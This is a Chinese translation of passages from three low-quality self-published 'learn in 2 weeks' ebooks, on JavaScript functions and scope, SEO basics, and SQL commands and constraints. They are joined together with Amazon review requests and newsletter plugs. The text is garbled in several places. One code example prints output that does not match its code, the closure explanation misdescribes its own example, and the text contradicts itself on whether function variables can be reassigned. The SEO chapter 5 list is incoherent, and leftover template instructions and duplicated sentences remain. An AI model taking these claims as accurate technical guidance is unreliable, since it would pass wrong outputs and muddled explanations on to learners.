涉及网页浏览器时，代码的输出进入 JavaScript 的控制台。

尽管浏览器 GUI 的这部分通常是的，但你可以通过按下某些键来访问（即对于 Windows ，按下 F12；对于 Mac ，按下 Command-Option-i）。如果你在查看此部分时遇到问题，可以在设备内搜索“开发者工具”或“Web 控制台”。分析以下示例：

```
var a = 99;

console.log(“ one hundred minus one is ”, a);

//-> one hundred minus one is 99
```


正如之前讨论的，在命名变量时不能使用句号或逗号。然而，上面的示例包含了一个。其原因是 `console.log` 不是一个普通的变量。它是一个 JavaScript 表达式，从存储在 `console`（这是一个变量）中的值中收集“log”信息。

# 返回值

在屏幕上编写信息和显示对话框被称为“副作用”（side effects）。因为这些副作用，函数在 JavaScript 语言中非常重要。你也可以使用函数来生成值——在这种情况下，一个函数即使没有副作用也是有用的。例如，`Math.max`（一个 JavaScript 函数）接收无限数量的数值并指示其中最高的一个。这里有一个示例：

```
console.log(Math.max(1, 2, 3, 4, 5));

//-> 5
```

在 JavaScript 中，任何生成值的对象都被视为表达式。这意味着你可以在大型表达式中执行函数调用。在下面的示例中，你将使用 `Math.min` 函数作为“+”运算符的输入：

```
console.log(Math.min(1, 2) + 98);

//-> 99
```

# 第 4 章：关于 JavaScript 函数的更多信息

在上一节中，你学习了如何创建和调用函数值。本章将帮助你进一步理解这个重要主题。根据专家程序员的说法，在在使用 JavaScript 时，函数是你的主要工具。函数是强大的工具，可以帮助你设计程序、减少冗余、命名子程序，并为每个子程序提供安全隔离。这意味着如果你想有效地使用 JavaScript，就必须掌握函数。本章将帮助你在短短两周内学会这种脚本语言。

许多人应用函数来定义新的词汇。这意味着你可以使用它们来创建单词并分配意义。

一个普通的英语说话者的词汇量大约有 20,000 个单词。嗯，编程语言通常没有那么多内置命令。这意味着编程中的词汇比人类语言中的词汇更精确。如果你想减少冗余，就必须将你自己的单词加入 JavaScript 并创建你自己的词汇。

# 如何定义函数

定义函数就像定义一个普通变量。唯一的区别是你正在赋值的值是一个函数。例如，下面的代码定义了一个名为“square”的变量。该变量指向一个可以生成任何赋值数字平方的函数。

```
var square = function(x) {

  return x * x;

}

console.log(square(12));

// -> 144
```

创建函数时，你应该用这个关键字开始表达式：“function”。每个函数有两个部分：(1) 句体和 (2) 参数。函数的句体存储了你希望在函数被调用（执行）时执行的 JavaScript 语句。此外，你应该始终使用大括号封装句体（即使它只包含一条语句）。

另一方面，参数是函数定义中的一个名称。函数可以有一个或多个参数。实际上，你甚至可以创建一个不输入任何参数的函数。为了帮助你理解这个概念，让我们创建两个函数：`makeNoise` 和 `power`。

```
var makeNoise = function() {

  console.log("Pling!");

}

makeNoise();

var power = function(base, exponent) {

  var result = 1;

  for (var count = 0; count < exponent; count++)

    result *= base;

  return result;

}

console.log(power(2, 10));

// -> 1024
```

你可以看到，`makeNoise` 没有任何参数。同时，`power` 有两个。

# JavaScript 中的参数和作用域

在函数内部定义的函数可以访问外部函数的变量和参数。这被称为“闭包”（closure）。

这是一个示例：

```javascript
var outer = function() {

  var message = "outer";

  var inner = function() {

    console.log(message);

  };

  inner();

};

outer();

// -> outer
```

这证明了内部函数可以访问外部函数的作用域，即使外部函数已经执行完毕。

# 嵌套作用域

除了定义局部和全局变量，JavaScript 还使用其他方法来区分不同的函数。例如，你可以在现有函数内部创建函数。这种技术产生了多个层级的局部性。

例如，下面的函数包含两个函数：

```javascript
var landscape = function() {

  var result = "";

  var flat = function(size) {

    for (var count = 0; count < size; count++) {

      result += "flat";

    }

  };

  var mountain = function(size) {

    for (var count = 0; count < size; count++) {

      result += "mountain";

    }

  };

  flat(3);

  mountain(4);

  flat(6);

  mountain(1);

  flat(1);

  return result;

};

console.log(landscape());

// -> "flatflatflatmountainmountainmountainflat"
```

两个函数（i.e. `flat` 和 `mountain`）都可以访问“result”变量，因为它们被放在声明该变量的函数内部。然而，它们无法访问对方的变量。这意味着位于函数外部程序环境无法访问它包含的变量。

使用过其他语言的程序员可能会认为，可以通过大括号包裹代码块来创建新的本地环境。但在 JavaScript 中，只有函数可以生成新的作用域。

## 将函数当作普通值使用

通常，函数变量用作程序某部分的名称。你不能修改现有的函数变量：一旦定义了它们，它们就会阻止你进行任何后续修改。这种特性可能会导致关于名称和它们所指代的函数之间的混淆。

显然，函数和变量是两个不同的东西。函数值可以执行普通值可以执行的操作——你可以在复杂表达式中调用并使用它们。你可以更改函数值的位置，将其作为函数的参数传递等等。同样，包含函数的变量仍然被视为普通变量。这意味着你可以给它们赋予新值。

## 声明

JavaScript 提供了一种快速且简单的方法来声明函数。你只需要使用“function”关键字开始你的语句即可。例如：

```
function square(x) {

  return x * x;

}
```

上面的语句被称为“声明”。它定义了一个名为 `square` 的变量，并赋予它一个特定的函数。这个例子很容易理解。然而，定义函数的方法有一个微妙之处：

```
console.log("The future says:", future());

function future() {

  return "We STILL have no flying cars.";

}
```

最后的示例运行完全完美，即使函数被声明在它被赋值的代码下方。这段代码是有效的，因为声明忽略了从上到下的语句结构。你实际上可以将声明移动到其作用域的顶部，以便本地代码可以访问它。这项功能非常有用，因为它允许你以有意义的方式安排代码，而无需定义所有受影响的函数。

## 可选参数

JavaScript 语言接受下面的代码。你在调用它时不会遇到任何问题。

```
alert( “ Hi ”, “ Good Morning ” , “ How are you? ” );
```


从官方角度讲，“`alert`函数只接受一个参数”。然而，如果你使用上面的示例代码调用它，它不会报错。它只会接受第一个参数（即“Hi”）并忽略其余部分。

这门编程语言在处理分配给函数的参数数量时是“思想开明”的。如果你分配了太多的参数，它会接受有效的参数并忽略其他的。但是，如果你的参数不足，JavaScript 将通过向相应的参数分配“`undefined`”来完成你的语句。

## 结论

再次感谢你下载此书！

我希望这本书能帮助你在两周内学会 JavaScript 的基础知识。

下一步是使用这门强大的脚本语言开始编写你自己的应用程序。

最后，如果你喜欢这本书，我想请你帮个忙，你愿意在 Amazon 上为此书留留评论吗？我将不胜感激！

点击此处在 Amazon 上为此书评价！

此外，请务必订阅我的技术和编程新闻邮件，以获取你的免费书籍并学习更多编程的知识。点击此处。

谢谢并祝你好运！

点击此处获取使用 Bluehost 设置你的 Wordpress 站的分步说明。

## SEO 训练营

## 2 周内学习 SEO 基础

在 KindleSpot.com 获取更多免费和特价书籍

## 目录

引言

第一章：什么是 SEO 以及为什么它对你的网站如此重要？

第二章：搜索技术的局限性

第三章：你的目标用户：你的搜索营销策略的开始

第四章：选择关键词进行排名

第五章：用户体验影响你的排名

第六章：构建你网页的链接概况

结论

## 引言

感谢你并祝贺你下载了《2周内学会 SEO 基础》一书。

这本书包含了关于如何以正确的方法进入搜索引擎结果页面顶部位置的经过验证的步骤和策略。

大多数业余营销人员都在寻找在所选关键词中排名的最快方法。由于不必要的紧迫感，其中一些人使用了被搜索引擎反感的方法。正因如此，过去许多人曾受到搜索算法更新的影响。这本书为你提供了在 Google 和其他搜索引擎中获得排名的正确方法。这些是经过白帽 SEO 专业人士尝试和测试的搜索引擎优化基础。使用这些技术，即使在大算法更新发布时，你的流量也不会遭遇重大打击。

（提供关于这本书的任何额外信息。确保引言能够推销这本书，因为人们在 Amazon 或 Kindle 上预览时可以看到它。你可以自己写这个，也可以要求你的书作者来写）。

再次感谢下载此书，希望你喜欢它！

## 第一章：什么是 SEO 以及为什么它对你的网站如此重要？

互联网是信息的海洋。它是由全球互联的计算机组成的网络。它允许我们访问地球另一端计算机上的信息。

但互联网本身是一个巨大的混乱。它充满了为了满足数十亿个人需求的网页。早早，工程师们就在寻找一种能够满足这些需求的工具。

但互联网本身是一个巨大的混乱。它充满了为了满足数十亿个人需求的网页。早期，工程师们就在寻找一种能够组织所有网页信息并帮助人们在最短时间内找到他们想要的东西的工具。

搜索引擎就是那个工具。

这就是搜索引擎的功能。它们通过让人工智能访问网页并收集信息来尽可能地“抓取”网页。它们将抓取网页的信息添加到索引中。当一个人输入搜索查询时，搜索引擎会遍历所有抓取的页面，并返回一个符合查询的列表。然后它根据这些页面与查询的相关性对它们进行排序。

每月有数十亿人使用搜索引擎。其中一些可能对你的网站感兴趣。为了给你的网站带来流量，你希望你的网页在目标访问者的搜索结果中。

### 什么是搜索查询？

搜索查询是用户的问题。他们使用搜索引擎寻找答案。以下是人们作为搜索引擎的三类问题：

### 在哪里/如何找到某物？

某些人使用查询来寻找特定的事物或位置。某人可能在寻找纽约市的二手汽车。他要求搜索引擎查找所有关于二手汽车的分类广告，输入：

“纽约二手汽车分类广告”

他发现结果很多，因此将搜索范围缩小到：

“曼哈顿二手雷斯斯 Craigslist”

### 什么、什么时候和哪里的问题

但大多数时候，人们使用搜索引擎寻找信息。例如，某些人使用搜索引擎为他们的学校作业寻找答案。许多人还通过搜索引擎查找与他们相关的时闻。与其查阅电话簿，人们还发现通过互联网查找企业的地址和联系电话要快。

### [公司名称] 的网站是什么？

最后，人们使用搜索引擎进入网络上的特定区域。例如，某些人想访问当地报纸的网站。他们不知道确切的网址，所以让 Google 引导他们去那里。

搜索引擎已成为发达国家大多数人答案的主要来源。大多数搜索引擎用户信任算法汇总的搜索结果。大多数人期望在顶部结果中找到查询的答案。如果前五个结果看起来没有问题的答案，人们倾向于认为是他们在查询中使用的短语有问题。大多数人会像那个在纽约寻找二手雷斯斯的人一样完善他们的搜索。

## 这对你的网站有什么影响？

如果你想为网站吸引更多流量，你需要了解搜索引擎的工作原理，并能够优化你的网页，以便它们被爬取、索引并显示在搜索结果页的顶部。

在 SEO（搜索引擎优化）领域，仅仅出现在搜索结果中是不够的。排名第一的结果点击率超过了 18%。随着你的页面在搜索引擎搜索结果页上的排名越靠后，获得的点击量就会越少。

在智能手机时代，人们起初认为网站的流行程度会开始下降。普通人认为 App 将取代搜索。如果这种情况真的会发生，到目前为止尚未出现。尽管人们在电脑前花费的时间减少了，但他们仍然在使用搜索来寻找所需的信息和想要的物品。针对手机屏幕优化的网站将获得移动搜索的大部分流量。

### 活动；第 1 和第 2 天的任务：确定你网站的主题或利基市场

如果你的网站专注于一个主题，它会更容易获得排名。如果你已经有一个通用的信息网站或博客，可以根据你已有的热门帖子或内容来决定最适合追求的主题。

在考虑网站的主题或利基市场时，你还应该考虑构建它的个人目标。你从现在起创建的内容类型应该让你离目标更近一步。

## 第 2 章：搜索技术的局限性

搜索引擎是在网络上查找信息最流行的工具。然而，尽管搜索算法和页面爬取技术有了所有改进，这个工具仍然有很多许多局限性。例如，搜索引擎在爬取和索引网页后，无法直接判断该网页对用户是否相关。它需要寻找更多线索，以确定特定页面是否应该出现在某些关键词的搜索结果顶部。

作为网站站长和搜索营销人员，你的工作是为搜索引擎提供将你排在首页所需的线索。搜索引擎专家将这些线索称为**排名因素**（ranking factors）。排名因素是搜索引擎爬虫在访问你的网站时寻找的信息。它们在索引期间汇总这些排名因素。网页在关键词搜索结果中的位置将取决于基于这些因素得出的排名分数。

即使考虑到数百个排名因素，搜索引擎仍然有很多许多局限性。

### 搜索引擎的局限性有哪些？

- **爬虫机器人依赖链接进行跳转**

  搜索引擎爬虫的目的是为整个可搜索互联网创建一个虚拟地图，我们指的是普通人可以访问的互联网部分。为了从一个页面跳转到另一个页面，它们使用所爬取页面中的超链接。这些数字桥梁是一个重要的排名因素。

  如果你的网站中有某些页面没有指向它的链接，你不应该指望它不会被索引或出现在搜索结果页中。

- **它们无法爬取受在线表单保护的页面**

  网站要求访问者成为成员是很常见的。要成为成员，你需要填写会员表单。搜索引擎并不具备填写所有类型表单的程序。因此，它们无法爬取站长专为成员展示的任何信息。

- **它们专门用于文本内容**

  搜索引擎爬虫擅长从基于文本的网站中收集信息。它们收集和组织非文本内容的能力受到严重限制。例如，爬虫机器人无法独立判断一张图片长什么样。它们在处理视频、音频、图像、Flash 和插件内容时也面临类似的挑战。

  为了解决这个问题，搜索公司要求站长在这些内容中包含文本信息。没有这些额外信息，网页中的某些类型内容在排名时将不会被赋予权重。

- **它们要求关键词匹配**

  当用户使用搜索引擎时，他们通常会输入一个描述他们正在寻找的内容短语。搜索引擎算法已经进化，它们比以往任何时候都更有能力在 90% 的情况下提供相关的网页。如果用户未使用正确的术语，可能会遇到一些问题。数百万用户在搜索不熟悉的内容时会使用不常用的术语。

  这种局限性对于英语初学者来说是很常见的。当他们不知道某个事物的单词时，可能会使用形容词来描述它。英语母语者知道他们可能想表达什么，但搜索引擎并没有这种能力。

（注：原文此处存在大量重复段落，已按逻辑去重）

## 第 3 章：你的目标用户：搜索营销策略的开始

为网站制定搜索营销策略时，你需要开始考虑那些可能从你的网站中发现价值的人群。他们是在搜索结果页上看到你的网页时最可能点击的人。搜索引擎桥接了你的网站内容与需要这些内容的人之间的鸿沟。

### 你的目标用户画像分析

互联网用户每月进行数十亿次。然而，并非所有搜索对你的网站都有价值。寻找你网站中信息类型的人数取决于你网站所属行业或利基市场的受欢迎程度。利基市场越热门，搜索者就越多。然而，热门的市场竞争也非常激烈。

为了领先竞争对手，你需要了解你的理想访问者。你可以通过为你的网站创建一个理想访问者画像来实现。如果你已经运行了一段时间网站，你可能可以通过你使用的分析软件收集有关访问网站的人员的信息。以下是你需要的访问者的某些信息类型：

- 年龄
- 性别
- 语言
- 位置
- 共同兴趣

通过获取这些信息，你将能够猜出人们在使用搜索引擎时最可能使用的词汇。根据你拥有的网站类型，你可能还需要一些额外的信息。

## 你对访客的目标

在创建了理想访者的画像后，你需要决定你希望这些人在访问你的网站时完成什么。如果你在网站上销售某些产品，你可能需要调整设计，以确保用户能够从你索引的页面开始购买。

其他网站则希望访客填写表单、回答调查或注册会员。

设定目标还允许你进一步细化你所针对的关键词类型。例如，如果你在销售某些产品，你可能需要针对与购买相关的短语。有些营销人员只针对处于购买过程后期阶段的人所使用的短语。

### 第 5 和第 6 天的活动：识别你的目标用户

下一个活动是识别你网站理想访者的特征。理想访客是指那些最有可能完成你预期目标的人。你应该说明这些人的共同点。除了第 3 章中提到的信息外，你还应该研究其他迎合同一目标市场需求的网站。你应该检查它们的设计以及它们提供的内容类型。

## 第 4 章：选择关键词进行排名

既然你已经知道目标访客是谁了，你需要选择他们在搜索你所提供的信息时会使用的正确关键词。

为了了解你的目标用户正在使用哪些关键词，你需要站在目标用户的角度考虑问题。你需要利用你所创建的画像中的现有信息，来猜测你应该使用的正确语言类型。

你还需要提醒自己搜索引擎技术具有局限性。你需要确保你的关键词代表了你在页面上显示的内容类型，以及潜在访客的意图。你的终极目标是提供潜在访客所需的内容，将他们转化为买家、订阅者、成员，或者至少是回访者。

大多数初级网站管理员认为他们应该只选择一个强有力的关键词并将其用于网站的所有页面。对于搜索引擎来说，这种策略看起来非常像“关键词堆砌”。

如果你想让你的网站成为该主题的主要信息来源，你需要针对多个与你网站主题相关的关键词进行排名。例如，如果你的网站是关于某个电视节目的，你可能想在网站首页针对它的标题。然后，你应该创建与该节目相关的文章或页面，例如关于角色的页面。在该页面中，你可以使用“[电视节目标题]角色”作为你的主关键词。

有一些免费和付费工具可以帮助你找到某些主题最常用的关键词。其中最流行的之一是 Google AdWords 关键词规划师。

在规划关键词时，你还应该考虑以下因素：

- 你提供的产品或服务的名称

这包括服务的通用名称和品牌。一些考虑购买东西的人通常知道他们想要购买的品牌，因此你应该拥有直接回答有关这些品牌问题的网站内容。这类内容将帮助你的网站通过搜索被发现。

- 与你的产品或服务相关的主题

你还应该提供与你的产品或服务相关的主题内容。例如，许多公司网站都会包含公司动态。这显示了你网站的活跃度。排名最重要的因素之一是更新的频率。

- 季节性热门关键词

你还应该为预期高销售额和流量的季节准备搜索营销活动。例如，对于零售网站，圣诞节、情人节和感恩节是大型活动。在这些季节，人们倾向于在线寻找主意以进行线下购买。你应该利用人们在这些季节挥霍的习惯。

## 在构建网页时使用关键词。

每当你创建一个博客文章或新网页时，你都需要考虑你将使用的目标关键词。你应该为你创建的每个页面或文章针对一个主关键词。你的关键词应该与你希望访客执行的活动一致。如果你希望访客购买某些东西，你的目标是建立一个针对具有购买意图的搜索者所使用的关键词的网页。你也可以创建针对研究特定产品的搜索者所使用的关键词的网页。

当你要排名哪些关键词后，下一个目标是将它们策略性地放在你的网页中。在这些位置放置关键词时，你必须确保它们出现得自然。你的首要目标是让人类访客理解你的内容。用户体验始终比任何 SEO 策略都重要。考虑到这一点，你应该将关键词放在网站的以下部分：

- URL 扩展

如果你的域名中已经包含了你想要排名的关键词，将会有帮助。大多数情况下，你需要将关键词插入 URL 的后半部分，以确保它包含在地址栏中。

- 标题标签（Title Tag）

标题标签让爬虫了解你的页面是关于什么的。通常，你需要尽早地在标题标签中添加关键词。这种策略的挑战在于，当你计划了一个创意的标题时。有时，将关键词放在标题标签的开头会让它听起来很别扭。如果是这样，你应该优先考虑用户体验。

- 页面顶部

你还应该在内容的第一段中包含关键词。长篇内容不会完全被爬虫扫描。除了标题标签外，爬虫还会尝试从前几段判断你的内容是关于什么的。这就是为什么你需要在这些区域包含关键词。

- 页面文本内容

除了第一段之外，你还应该内容的各个部分添加 3-4 次关键词。在这种情况下，你可能需要对主关键词进行变体，使其听起来自然并避免让读者感到冗余。

- 图片的 Alt 属性（Alt-attribute）

你还应该在图片的 Alt 属性中添加句子或描述。这将有助于你的图片在搜索引擎的图片搜索功能中获得良好排名。你应该确保只包含与你的内容相关的图片。你应该尝试制作独特的图片和照片。这会让你的图片在图片搜索结果页中脱颖而出，并导致更高的点击率。

## 元描述（Meta description）

上述所有其他属性会让网页在搜索引擎结果页中表现更好。为了保持你的网页排名较高，你需要确保看到它的人会点击进入你的页面。网页过去的点击率也是一个重要的排名因素。

有两个重要因素会提高你在搜索引擎中的点击率。第一个是你的内容标题，我们在本节之前讨论过。第二个是标题下方的描述。大多数内容管理软件（CMS）默认使用文本内容的第一部分作为描述。你应该咨询你的 CMS 如何添加元描述，以便你控制显示在搜索引擎结果页中标题下方的文本。你需要对不同的描述副本进行实验，以获得最高点击率的版本。

# Google 趋势 (Google Trends)

Google 趋势为你提供了全球范围内人们使用的热门关键词。它们还允许你检查你的国家现在以及过去流行的内容。你还可以获得有关某些关键词和短语多年来人气波动情况的洞察。

## 第 5 章：用户体验影响着你的排名

在上一章中，我们讨论了保持目标关键词与你的网页内容以及访问者的需求保持一致的重要性。

例如，如果你的网站专注于增肌健身设备，你应该针对人们在网上寻找这类物品时会使用的关键词。

当人们在搜索引擎结果页上点击通往你网页的链接时，他们对你会有满足的期望。在这个特定的例子中，如果你在正确的关键词上排名，访问者可能期望找到不同种类的负重训练工具。你可能还可以添加食品补充剂来增加肌肉增长率。

假设你的访问者使用“增肌健身设备”这个短语进入你的网站，但当他们到达你的网站时，发现你关注的是瑜伽技巧，而且你只评测瑜伽相关的产品。在这种情况下，你的访问者会对结果感到稍微失望，并可能会点击移动设备或浏览器上的“返回”按钮。

这就是导致用户流失的原因，这是一种糟糕的用户体验。搜索引擎会尝试避免将用户引导到错误的网站。

- 关键词对齐：你考虑的首要因素是你使用的关键词。当关键词与主题不符时，你的网页可能会获得排名。你应该确保关键词与你的内容一致。如果你的关键词与内容不符，搜索引擎会考虑这一点。这会让你的网页获得排名。
- 入站链接质量：搜索引擎会考虑你网站的质量。如果你的网站是良好的，搜索引擎会考虑这一点。高质量的链接对你的网站更有权重。你应该考虑网站的受欢迎程度。知名网站的链接更有权重。
- 导航结构：你的网站导航是非常重要的。在搜索结果中，搜索引擎会考虑你的网站导航。如果你的网站导航良好，搜索引擎会考虑考虑你。这会影响你的排名。当你的网站获得良好的排名时，你需要确保你的内容对用户有吸引力。
- 用户体验：当用户点击你的链接后，搜索引擎会认为你的内容是满意的。由于你的网站加载缓慢，这会影响排名。如果你的网站加载速度慢，搜索引擎可能会认为你正在使用黑帽方法来排名。为了避免这种情况，你需要确保你的内容是高质量的。
- 内容质量：如果你的内容是高质量的，搜索引擎会认为你的网站是可靠的。由于你的网站加载缓慢，搜索引擎可能会认为你在使用黑帽方法。这会影响你的排名。
- 内容算法：搜索引擎会考虑你网站的受欢迎程度。如果你的网站是受欢迎的，搜索引擎会考虑你的排名。如果你的内容是高质量的，搜索引擎会考虑你的排名。

第 14 天，你应该回顾排名的改进情况，以及你可以通过哪些其他任务来进一步提升排名。

## 结论

再次感谢下载本书！

我希望这本书能够帮助你学习 SEO，并提高你在搜索引擎搜索结果页上的排名。

下一步是继续学习并实施 SEO 的最佳实践。这个行业仍在发展中。你需要不断关注最新更新，以保持你的网站在排名中的竞争力。

最后，如果你喜欢这本书，我想请你帮个忙，你是否愿意在 Amazon 上为这本书留下一条评论呢？我将不胜感激！

[点击此处在 Amazon 上为本书留评！](#)

另外，请务必订阅我的技术和编程新闻邮件，获取你的免费书籍并学习更多关于编程的知识。[点击此处](#)

感谢并祝你好运！

[点击此处获取使用 Bluehost 设置你的 Wordpress 网站的逐步说明。](#)

## SQL 训练营

## 在 2 周内学习 SQL 编程基础

在 KindleSpot.com 获取更多免费和实惠书籍

## 目录

- 引言
- 第 1 章：SQL – 基础信息
- 第 2 章 – 关系数据库管理系统的基本概念
- 第 3 章：SQL 语句的语法
- 第 4 章：SQL 中不同的数据类型
- 第 5 章：SQL 语言中的运算符
- 第 6 章：SQL 表达式
- 第 7 章如何在你的数据库中使用 SQL
- 第 8 章如何使用 SQL 组合记录
- 结论

## 引言

我想感谢并祝贺你下载了《2 周内学会 SQL 编程基础》这本书。

书中包含了关于如何快速有效地学习 SQL 编程语言的经过证明步骤和策略。

这本电子书将教你 SQL 的基础知识，SQL 是一种用于关系数据库的强大计算机语言。由于这是一本短书，它侧重于 SQL 最重要的方面。它解释了该语言的基础、数据库系统的特性、你可以使用的命令以及你可能在数据库上应用的约束条件。基本上，你将在本书中读到的所有内容都是为了帮助你在两周内学会 SQL。书中没有包含任何无关信息。

如果你想成为一名精通的 SQL 用户，这就是你需要的书。请仔细阅读这些材料并分析其中包含的语法。这样，你一定能掌握 SQL 计算机语言的基础。

再次感谢下载本书，希望你喜欢它！

## 第 1 章：SQL – 基础信息

这本书提供了一种独特的教学方法：它将帮助你在 2 周内学习 SQL 编程语言的基础。此外，它还将为你提供示例，帮助你立即掌握这种语言。

基本上，SQL 是一种用于数据库的计算机语言。它涉及数据行、列修改和数据库生成。

### SQL - 结构化查询语言

SQL 是一种你可以用于存储、处理和检索存储在关系数据库内部信息的语言。

这被认为是 RDS（即关系数据库系统）的标准计算机语言。现代数据库系统如 MySQL、Oracle、Informix、Sybase 和 MS Access 都使用 SQL 作为它们标准语言。

## SQL 提供的主要优势

SQL 允许执行以下操作：

- 访问关系数据库系统中的信息。
- 为要存储的信息添加描述。
- 定义并操纵数据库中存储的数据。
- 通过其内置库、预编译器和模块使用其他语言。
- 生成和删除表及数据库。
- 在你的数据库中生成、查看和存储函数。
- 在表和数据库对象上分配访问权限。

## SQL 如何工作？

每当你在关系数据库管理系统上运行 SQL 命令时，系统都会识别处理你请求的理想方式。然后，SQL 引擎将解释涉及的活动。

上述过程涉及不同的组件。这些是：优化引擎、查询调度器、SQL 查询引擎和经典查询引擎。下面的图片将向你展示 SQL 处理的基本架构：



## 你可以在 SQL 中使用的命令

书的这一部分将解释基础 SQL 命令。请仔细学习这些材料，因为它们可以帮助你在 2 周内学会 SQL。

根据专家程序员的说法，SQL 中的标准命令是`SELECT`、`CREATE`、`UPDATE`、`DROP`、`DELETE`和`INSERT`。让我们根据这些命令的行为进行分类：

### 数据定义语言（也称为 DDL）

- `CREATE` – 在数据库内部生成新对象或表。
- `ALTER` – 编辑数据库中的现有对象。
- `DROP` – 移除数据库对象。

### 数据操纵语言（也称为 DML）

- `INSERT` – 在数据库中生成一条新记录。
- `UPDATE` – 编辑数据库中的现有记录。
- `DELETE` – 移除现有数据库记录。

### 数据控制语言（也称为 DCL）

- `GRANT` – 允许你向某些数据库用户授予权限。
- `REVOKE` – 允许你从某些数据库用户撤回权限。

### 数据查询语言（也称为 DQL）

- `SELECT` – 允许你从数据库中检索记录。

## 第 2 章 – 关系数据库管理系统的基本概念

SQL 是你可以用来与关系数据库管理系统交互的语言。因此，你也应该理解这些数据库系统的基本特性。本章将解释 RDBMS 的基础知识，以便你能在 14 天内学会 SQL。

### 什么是数据库表？

在 RDBMS 中，信息存储在一个名为“表”的数据库对象中。表是一组相关的记录，由行和列组成。

你应该知道，表是关系系统中中最基本、常见的存储形式。以下是一个表的示例：

| ID | Name | Sex | State |
|---|---|---|---|
| 1 | John | Male | New York |
| 2 | Mark | Male | Florida |
| 3 | Christian | Male | Texas |
| 4 | Paul | Male | Illinois |
| 5 | James | Male | Nevada |
| 6 | Peter | Male | Arkansas |
| 7 | Simon | Male | Virginia |

### 字段

每个数据库表都包含被称为“字段”的小部分。在上面的示例中，字段是 ID、Sex、Name 和 State。

字段是表中的列，用于保留有关每个数据库记录特定信息。

### 行

行也称为“数据记录”，是存储在表的单个数据库项。例如，上面的表有七条记录。这是一个示例记录：

| John | Male | New York |

基本上，记录是表内部的水平实体。

### 列

列是表内部的垂直实体。它们包含与特定字段的信息。例如，ID 是上述示例中的列之一。它代表列表人员的编号。

| ID |
| 1 |
| 2 |
| 3 |
| 4 |

### Null 值

数据库表中的空值为空。这意味着包含“`NULL`”的字段是空的。

你应该记住，`NULL`值不同于零和“空格”（即你按下空格键得到的字符）。当数据库用户在创建表时没有输入任何值时，字段就会变为`NULL`。

### SQL 中的约束

在 SQL 中，约束是应用于某些数据列的规则。它被用来限制存储在表中的信息类型。基本上，约束有助于确保数据库的可靠性和准确性。

你可以在表级或列级上应用约束。因此，你可能可以在某些列或整个表上应用约束。

以下是 SQL 编程语言中一些常用的约束：

- `UNIQUE` – 此约束防止所选列中的数据冗余。例如，你可能需要防止列表用户具有相同的识别号。分析以下示例：

```


```
CREATE TABLE CUSTOMERS(
  ID INT NOT NULL,
  NAME VARCHAR(20) NOT NULL,
  AGE INT NOT NULL UNIQUE,
  ADDRESS CHAR (25) ,
  SALARY DECIMAL (18, 2),
  PRIMARY KEY (ID)
);
```

这段代码创建了一个名为`CUSTOMERS`的表，并将其划分为五列。`UNIQUE`约束被应用于`AGE`列，因此你不能输入两个或多个具有相同年龄的客户。

如果你想对现有列应用此约束，可以使用以下语法：

```
ALTER TABLE (在此处插入表名)
MODIFY (在此处插入列名) (指定值类型) NOT NULL UNIQUE;
```

- `DEFAULT` – 这允许你设置默认数据。但是，只有当`INSERT INTO`（另一个 SQL 语句）没有特定值时，你才能使用它。这是一个示例：

```
CREATE TABLE CUSTOMERS(
  ID INT NOT NULL,
  NAME VARCHAR(20) NOT NULL,
  AGE INT NOT NULL,
  ADDRESS CHAR (25) ,
  SALARY DECIMAL (18, 2) DEFAULT 5000.00,
  PRIMARY KEY (ID)
);
```

这段代码生成了一个名为`CUSTOMERS`的表，并将其划分为 5 列。如你所见，“5000.00”被标记为工资列的默认值。

这意味着如果你无法使用`INSERT INTO`命令添加任何值，该列将自动接收 5000.00。

要删除此约束，可以使用以下语法：

```
ALTER TABLE (在此处插入表名)
ALTER COLUMN (在此处插入列名) DROP DEFAULT;
```

- `NOT NULL` – 列可以包含 NULL 值。但是，如果你不想在某些列中包含 NULL 值，则可以利用此约束。此约束将防止系统向指定的列中输入 NULL 值。

重要说明：NULL 值代表未知信息。因此，它们不同于“没有信息”。

下面的截图显示了如何使用 SQL 应用`NOT NULL`约束：

```
CREATE TABLE CUSTOMERS (
  ID INT NOT NULL,
  NAME VARCHAR (20) NOT NULL,
  AGE INT NOT NULL,
  ADDRESS CHAR (25) ,
  SALARY DECIMAL (18, 2),
  PRIMARY KEY (ID)
);
```

上述代码生成了一个名为`CUSTOMERS`的表并创建了 5 列。你不能在`ID`、`AGE`和`NAME`中输入 NULL 值，因为`NOT NULL`约束已应用于这些列上。

要在现有列上应用`NOT NULL`，请使用以下语法：

```
ALTER TABLE (此处表名)
MODIFY (此处列名) (指定值类型) NOT NULL;
```

- `CHECK` – 此约束可以检查你存储到表中的值。如果指定的条件为“假”，你将无法向记录中添加值。分析下方的代码：

```
CREATE TABLE CUSTOMERS (
  ID INT NOT NULL,
  NAME VARCHAR(20) NOT NULL,
  AGE INT NOT NULL CHECK (AGE >= 18),
  ADDRESS CHAR(25),
  SALARY DECIMAL(18, 2),
  PRIMARY KEY (ID)
);
```

该代码创建了一个名为`CUSTOMERS`的表并将其划分为五列。`CHECK`约束被应用于`AGE`。根据其条件（即 >= 18），你将无法添加年龄低于 18 岁的客户。

若要在现有表上应用此约束，你应该使用以下语法：

```
ALTER TABLE (你想要编辑的表名)
MODIFY (你想要使用的列名) (指定值类型) NOT NULL CHECK (列名以及你想要应用的条件);
```

- `INDEX` – 你应该使用此约束来快速生成或检索数据。在创建索引时，你可以选择单列或一组列。活动索引在排序信息之前会为每一行数据接收一个`ROWID`。

如果你想提高数据库的可靠性和性能，良好的索引是必要的。然而，在创建索引时你应该极度小心。你应该选择在运行数据库搜索时将使用的字段。下面的 SQL 语句创建了一个名为`CUSTOMERS`的表并将其划分为 5 列：

```
CREATE TABLE CUSTOMERS (
  ID INT NOT NULL,
  NAME VARCHAR (20) NOT NULL,
  AGE INT NOT NULL,
  ADDRESS CHAR (25),
  SALARY DECIMAL (10, 2),
  PRIMARY KEY (ID)
);
```

